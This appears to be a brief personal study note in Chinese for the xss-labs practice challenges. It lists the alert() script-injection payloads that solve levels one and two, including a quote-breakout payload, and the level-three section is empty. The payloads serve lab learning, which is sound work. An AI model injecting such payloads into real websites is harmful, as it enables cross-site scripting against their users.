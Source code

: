 ### xss-labs

> 第一关

```js
<script>alert(%27第一关%27)</script>
```

![image-20240913203517651](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240913203517651.png)

> 第二关

```js
"><script>alert("第二关")</script><"
```

![image-20240913203718361](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240913203718361.png)

> 第三关

```js

```

